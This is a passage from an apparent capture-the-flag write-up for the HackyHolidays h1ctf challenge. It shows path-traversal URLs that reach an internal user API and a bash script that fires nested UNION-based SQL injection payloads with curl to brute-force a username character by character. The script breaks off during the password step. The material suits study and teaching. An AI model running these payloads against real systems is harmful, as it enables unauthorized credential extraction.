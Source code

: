 And looping over the script gave, two parameters `username` and `password`.

```shell
$ cat test.txt  | xargs -I {} -n 1 -P 10 ./find_endpoints.sh {}
username:https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXI/dXNlcm5hbWU9YW55dGhpbmciLCJhdXRoIjoiZTkwN2ZmZTJiZDFjYTc1YmI5ODliYjFkYTZiYTAwNDAifQ==
password:https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXI/cGFzc3dvcmQ9YW55dGhpbmciLCJhdXRoIjoiNWI1MGQ3MTVjZjYyYmRmYjY4ZWQ1ZGQ1YzU3ZDBkMDgifQ==
```

Now that we have username and password parameters we can starting looking for it's values, to check for any error message we try - `user?username=a` to get `Expected HTTP status 200, Received: 204`. Now we know what to negate to. But how is this searching in database? Theory:

```sql
select * from user where username like "whatever";
select * from user where username like "w%"; # if we don't know the complete thing
```

So, if we have to guess character by character we have to use wild card characters - `%` allows all the character, so we can use it like - `a%` to check if `a` is the first character or not. To do it manually, it will be too much of work, so let's script it out,

```bash
#!/bin/bash
# find_credentials.sh: Script for finding the valid credentials

charset=$(echo {a..z} {A..Z} {0..9})

# Extracting Username
ct=0
found=""
res=""
echo "[*] Finding Username..."
while [[ $ct -le 36 ]]; do
        ct=0
        for char in $charset
        do
                url="https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=%22-1'%20UNION%20ALL%20SELECT%20%22-1'%20union%20all%20select%20NULL,NULL,'../api/user?username=${found}${char}%'--%20-%22,2,3--%20-"

                # extracting image path
                path=$(curl -s $url | awk -n '/<img class="img-responsive" src="/,/">/' | cut -d '"' -f4)

                img_url="https://hackyholidays.h1ctf.com${path}"
                if [[ $(curl -s $img_url) != "Expected HTTP status 200, Received: 204" ]]; then 
                        echo ${char}
                        res=$res$char
                        found=${found}${char}
                        break 1
                fi
                ct=$(( ct+1 ))
        done
done
echo "Username: ${res}"

# Extracting Password
ct=0
found="s"
echo "[*] Finding Password..."
while [[ $ct -le 62 ]]; do
        ct=0
        for char in $charset
```